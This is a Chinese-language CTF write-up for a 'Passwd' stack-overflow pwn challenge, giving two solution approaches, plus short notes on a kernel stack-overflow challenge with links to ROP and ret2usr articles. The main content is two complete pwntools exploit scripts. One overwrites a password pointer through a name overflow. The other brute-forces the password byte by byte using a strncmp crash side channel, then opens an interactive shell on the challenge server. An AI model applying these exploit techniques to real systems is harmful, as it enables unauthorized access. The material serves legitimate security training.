 # Pwn

## Passwd（简单的栈溢出，有两种思路可以利用）

### 解题思路一

> 文件读取结束后，相关的缓冲区数据会被清空吗? 不会吧，不会吧

(直接拿郭子仪同学的wp放上来了)

首先nop掉反调试, 恢复结构体   

![struct](assert/struct.png)

其中passwd指向我们读入的数据。
然后函数名字也rename一下。

![fun](assert/fun.png)

然后看一下这个程序实际上在读取的时候可以将name溢出到passwd来修改passwd指针。

![vul](assert/vul.png)

程序使用fopen读取真正的密码，而文件读取结束后相关缓冲区的并不会被清空。所以直接覆盖passwd指针到缓冲区即可。不过要稍微爆破一下。（一开始想复杂了，准备对着mmap一通操作，打freehook）。脚本其实不难，一开始确实想偏了。

#### 最终结果

![res](assert/res.png)

#### exp

``` python
# encoding=UTF-8
from pwn import *

context.terminal='/bin/zsh'
context.arch = "amd64"
context.log_level = "debug"
elf_path = "./passwd"
elf = ELF(elf_path)
libc = ELF("./libc-2.23.so")
ip = "www.povcfe.site"
port = 10001
#io = remote(ip, port)
#io = process(elf_path)

def input_name(buf):
    io.sendlineafter("Name:", buf)

def input_size(size):
    io.sendlineafter("Length Of New Passwd:", str(size))

def input_passwd(buf):
    io.sendlineafter("Passwd:", buf)

yes = "yes"
no = "no"
def yes_no(s):
    io.sendlineafter("yes/no?:", s)

sw = "1"
ac = "2"
def choice(c):
    io.sendlineafter("[2]:Start A New Article", c)


def input_ac(buf):
    io.sendlineafter("Article(end with '#'):", buf)

while 1:
    #io = remote(ip, port)
    
    io = process(elf_path)
    input_name("abcd")
    input_size(24)
    input_passwd("123456")
    choice(sw)
    yes_no(yes)
    
    buf = "admin"
    buf += "\x00"*0xb   # 填充至name结束，16个
    buf += "\xa0\xd2"   # 开始覆盖passwd指针的低位
    input_name(buf)
    # pause()
    # attach(io)
    buf = "a"*0x14
    input_passwd(buf)
    pause()
    attach(io)

    io.interactive()
```

**郭子仪同学一开始陷入误区的原因是认为mmap基地址与libc基地址偏移固定，其实两者的偏移在不同系统上有可能是不同的。换个思路，因为mmap与libc之间一定是以0x1000为基础进行偏移的，所以在这里可以适度爆破mmap与libc之间的固定偏移，那么这题也是可以做出来的**

### 解题思路二

> 考虑一下strncmp函数是怎么判断字符串相等的?

#### 前置知识

strncmp(str1, str2, n) 的实现原理，是通过逐字节比对直至n字节全部比对完毕，中间如果发现某字节不同，则函数返回。所以，假设str1[0]存储于合法地址，但是str1[1]存储于非法地址(无读取权限的地址)，那么如果在比对第一个字节时，str1与str2不同则正常函数返回，反之如果第一个字节相同，函数继续执行并读取第二个字节(str[1]存储于非法地址)，则程序异常退出。

#### 解体思路

通过溢出可以控制passwd指向的地址，并且程序中存在由mmap开辟的固定内存块0x600000000000-0x600000004000，所以如果把passwd指向0x600000004000-1，那么根据程序的返回状态就可以判断第一个字节是否正确，根据这个方法可以把passwd逐字节爆破

#### exp

``` python
from pwn import *
import time
import sys

# sh = process("./passwd")
# ip = sys.argv[1]
#sh = remote("172.16.202.302", 8888)
sh = remote("geekgame.scuctf.com", 10001)
# context.log_level = "debug"

def login(name, passwd_len, passwd):
    sh.recvuntil("[+] Input Your Name:\n")
    sh.sendline(name)
    if(name == "admin"):
        sh.recvuntil("[+] Input Admin Passwd:")
        sh.sendline(passwd)
    else:
        sh.recvuntil("[+] Please Input The Length Of New Passwd:\n")
        sh.sendline(str(passwd_len))
        sh.recvuntil("[+] Input The New Passwd:\n")
        sh.sendline(passwd)


def switch_account(name, passwd):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("1")
    sh.recvuntil("[+] Are You Sure To Switch Account? yes/no?:\n")
    sh.sendline("yes")
    sh.recvuntil("[+] Input The New Name:\n")
    sh.sendline(name)
    sh.recvuntil("[+] Input The Passwd:\n")
    sh.sendline(passwd)


def new_article(context):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("2")
    sh.recvuntil("[+] Input The Content Of Article(end with '#'):\n")
    sh.sendline(context)


passwd = b""
num = 0
addr = 0x600000004000

ppp = 0

while(num < 19):
    login(b"povcfe", 22, b"aaa")
    new_article(b"aaaa#")
    addr = addr - 1
    payload = b"admin" + b"a"*11 + p64(addr)
    while(1):
        ppp = ppp+1
        for i in range(0x20, 0x80):
            try:
                try_passwd = passwd + chr(i).encode()
                switch_account(payload, try_passwd)

            except:
                num = num + 1
                passwd = passwd + chr(i-1).encode()
                log.success("one byte is: " + chr(i-1))
                break

        # sh = process("./passwd")
        sh.close()
        # sh = remote("172.16.202.132", 8888)
        sh = remote("geekgame.scuctf.com", 10001)
        break

login(b"povcfe", 22, b"aaa")
new_article("bbb#")

log.success(str(ppp))
addr = 0x600000000000
while(1):
    payload = b"admin" + b"a"*11 + p64(addr)
    for i in range(0x20, 0x80):

        try_passwd = passwd + chr(i).encode()
        log.success(b"try passwd is: " + try_passwd)
        switch_account(payload, try_passwd)
        time.sleep(1)
        sh.sendline(b"echo bll")
        res = sh.recvline()
        if b"bll" in res:
            sh.interactive()
            log.success("over")
            break
    log.success(b"passwd is: " + try_passwd)
break
```

## Kernel_rop（简单的内核栈溢出）

+ 一．Hint中给出学习内核基础知识的链接，同时hint3直接给出解题的详细步骤，只隐藏ROP构造部分，现已补全[经典ROP](https://www.povcfe.site/2020/05/16/kernel-rop/#more)

+ 二．内核栈溢出除了hint给出的经典ROP利用，还可以使用ret2usr的利用方法(这个方法在hint3所给链接的隔壁，我专门把那篇文章放在了博客首行，并且给出了exp，编译之后直接运行就可以提权orz，竟然没人发现) [ret2usr](https://www.povcfe.site/2020/05/17/kernel-ret2usr/#more)